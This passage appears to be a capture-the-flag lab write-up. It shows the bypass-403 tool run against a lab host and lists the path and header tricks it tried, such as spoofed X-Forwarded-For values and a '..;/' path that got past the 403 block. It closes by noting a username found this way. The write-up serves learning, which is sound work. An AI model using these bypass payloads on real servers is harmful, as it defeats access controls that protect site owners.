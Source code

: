 Bypassing a page with 403 forbidden.

Here are tools for this:

\--> [https://github.com/yunemse48/403bypasser](https://github.com/yunemse48/403bypasser)

\--> [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) \[Best]

So i used the one by iamJoker

```bash
┌──(dking㉿dking)-[/opt/bypass-403]
└─$ ./bypass-403.sh http://10.10.222.170:8001/403.php 

403,1123  --> http://10.10.222.170:8001/403.php/
403,1123  --> http://10.10.222.170:8001/403.php/%2e/
403,1123  --> http://10.10.222.170:8001/403.php//.
403,1123  --> http://10.10.222.170:8001/403.php////
403,1123  --> http://10.10.222.170:8001/403.php/.//./
403,1123  --> http://10.10.222.170:8001/403.php/ -H X-Original-URL: 
403,1123  --> http://10.10.222.170:8001/403.php/ -H X-Custom-IP-Authorization: 127.0.0.1
403,1123  --> http://10.10.222.170:8001/403.php/ -H X-Forwarded-For: http://127.0.0.1
403,1123  --> http://10.10.222.170:8001/403.php/ -H X-Forwarded-For: 127.0.0.1:80
403,1123  --> http://10.10.222.170:8001/403.php -H X-rewrite-url: 
403,1123  --> http://10.10.222.170:8001/403.php/%20
403,1123  --> http://10.10.222.170:8001/403.php/%09
403,1123  --> http://10.10.222.170:8001/403.php/?
403,1123  --> http://10.10.222.170:8001/403.php/.html
403,1123  --> http://10.10.222.170:8001/403.php//?anything
403,1123  --> http://10.10.222.170:8001/403.php/#
403,1123  --> http://10.10.222.170:8001/403.php/ -H Content-Length:0 -X POST
403,1123  --> http://10.10.222.170:8001/403.php//*
403,1123  --> http://10.10.222.170:8001/403.php/.php
403,1123  --> http://10.10.222.170:8001/403.php/.json
405,303  --> http://10.10.222.170:8001/403.php/  -X TRACE
403,1123  --> http://10.10.222.170:8001/403.php/ -H X-Host: 127.0.0.1
200,917  --> http://10.10.222.170:8001/403.php/..;/
000,0  --> http://10.10.222.170:8001/403.php/;/
405,303  --> http://10.10.222.170:8001/403.php/ -X TRACE
Way back machine:
{
  "available": null,
  "url": null
}
```

And we got a hit: [http://10.10.222.170:8001/403.php/..;/](http://10.10.222.170:8001/403.php/..;/)

<figure><img src=".gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

A possible username: `imsau` .

